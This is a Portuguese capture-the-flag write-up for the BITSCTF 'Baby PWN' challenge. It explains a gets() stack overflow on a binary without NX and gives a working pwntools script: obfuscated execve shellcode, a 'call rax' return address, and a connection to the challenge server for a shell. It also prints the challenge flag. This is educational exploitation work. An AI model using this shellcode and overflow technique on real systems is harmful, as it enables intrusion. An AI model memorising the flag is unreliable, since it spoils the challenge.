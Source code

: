 # WriteUp: Baby PWN
## Descrição do Desafio
**Categoria:** pwn \
**Descrição:**
> I hope you are having a nice day.

### Arquivos
| Arquivo | Descrição |
| ------- | --------- |
| main | Executável. |
| solve.py | Script da solução. |

> 📥 **Download:** [Arquivos](https://github.com/HawkSecUnifei/Writeups/raw/refs/heads/main/2025/BITS_CTF/Baby-PWN/Arquivos.zip)

## Passo a Passo da Solução
### 1. Análise do executável
Olhando para o código do executável pelo **Ghidra**, notamos que ele é bem simples. Ele apenas chama uma função `vuln()` que por sua vez, chama a `gets()`. 

Aqui já sabemos que o executável é vulnarável a *buffer overflow*, já que a `gets()` não limita e entrada de caracteres. Porém, a vulnerabilidade principal está na falta da proteção `NX`.

```bash
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stack:      Executable
RWX:        Has RWX segments
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

A proteção `NX` é a responsável por fazer com que os dados na pilha não possam ser executados, porém sem ela, podemos inserir *shellcodes* no *buffer* e por fim retornar para eles, fazendo eles serem executados. 

### 2. Exploit
Já sabemos que devemos escrever *shellcodes*, porém não sabemos como retornar para eles, pois a área da pilha é influenciada pelo `ASLR` e não pelo `PIE`, e como ele dificilmente estará desativado, a pilha estará com os endereços randomizados.

É aí, que surge a instrução `call rax`, identificada pelo comando `ROPgadget --binary=main`. Essa instrução é importante porque sabemos o endereço, que não é aleatório, e principalmente, porque o `rax` armazena um ponteiro para o *buffer* após a função `gets()` ser executada. Com isso a solução está praticamente pronta, falta descobrir quantos *bytes* escrever até o endereço de retorno.

```bash
pwndbg> retaddr
0x7fffffffded8 —▸ 0x401168 (main+18) ◂— mov eax, 0

pwndbg> x/100x $rsp
0x7fffffffde60: 0x41414141      0x41414141      0x00080000      0x00000000
0x7fffffffde70: 0x00008000      0x00000000      0xffffdea8      0x00007fff
0x7fffffffde80: 0x00000019      0x00000021      0x00000000      0x00000000
0x7fffffffde90: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdea0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdeb0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdec0: 0x00000000      0x00000000      0xf7fe5af0      0x00007fff
0x7fffffffded0: 0xffffdee0      0x00007fff      0x00401168      0x00000000
```

Endereço de retorno está armazenado no endereço `0x7fffffffded8` e o *buffer* começa no endereço `0x7fffffffde60`, logo a quantidade de *bytes* para chegar no retorno é 120.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./main")
context.arch = "x86-64"

p = remote("chals.bitskrieg.in", 6001)
#p = process()

shellcode = asm('''
                mov eax, 0x3c
                dec al
                mov rdx, 0
                mov rsi, 0
                mov rdi, 0x0065722f6d65602f
                mov r10, 0x0003010001040200
                add rdi, r10
                push rdi
                mov rdi, rsp
                syscall
''')

payload = shellcode + b"A" * (120 - len(shellcode)) + p64(0x0000000000401014)
p.sendline(payload)
p.interactive()
```

{% endcode %}

{% hint style="warning" %}

**Importante:** O *shellcode* foi reutilizado do desafio [Execute](/HackTheBox/Execute/README.md), por isso ele não está otimizado.

{% endhint %}

### Flag
`BITSCTF{w3lc0m3_70_7h3_w0rld_0f_b1n4ry_3xpl01t4t10n_ec5d9205}` 

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)